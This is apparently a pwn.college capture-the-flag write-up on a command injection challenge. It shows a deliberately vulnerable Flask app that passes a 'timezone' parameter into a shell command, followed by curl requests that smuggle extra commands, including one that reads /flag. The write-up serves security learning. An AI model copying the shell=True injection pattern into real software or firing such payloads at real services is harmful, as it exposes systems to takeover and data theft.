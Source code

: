 This requires us to inject our command in a bit of a different way.

```python
#!/opt/pwn.college/python

import subprocess
import flask
import os

app = flask.Flask(__name__)

@app.route("/", methods=["GET", "POST"])
def challenge():
    timezone = flask.request.args.get("timezone", "MST")
    command = f"TZ={timezone} date"
    print(f"DEBUG: {command=}")

    result = subprocess.run(
        command,                    # the command to run
        shell=True,                 # use the shell to run this command
        stdout=subprocess.PIPE,     # capture the standard output
        stderr=subprocess.STDOUT,   # 2>&1
        encoding="latin"            # capture the resulting output as text
    )

    return f"""
        <html><body>
        Welcome to the timezone service! Please choose a timezone to get the time there.
        <form><input type=text name=timezone><input type=submit value=Submit></form>
        <hr>
        <b>Output of: TZ={timezone} date</b><br>
        <pre>{result.stdout}</pre>
        </body></html>
        """

os.setuid(os.geteuid())
os.environ["PATH"] = "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
app.secret_key = os.urandom(8)
app.config['SERVER_NAME'] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
```

The command in use here is `TZ={timezone} date`. This basically gives us the current date and time in the specified timezone. The injection happens in between the command.

So what we can do is break out of the command, ending it early by putting a `date` command in before the preset `date` command:

```bash
curl -v "http://challenge.localhost:80/?timezone=UTC%20date%3b"
```

This gave us 2 date-time outputs corresponding to 2 commands being executed. Now we can inject our command in between the 2 `date` commands.

```bash
curl -v "http://challenge.localhost:80/?timezone=UTC%20date%3bcat%20/flag%3b"
```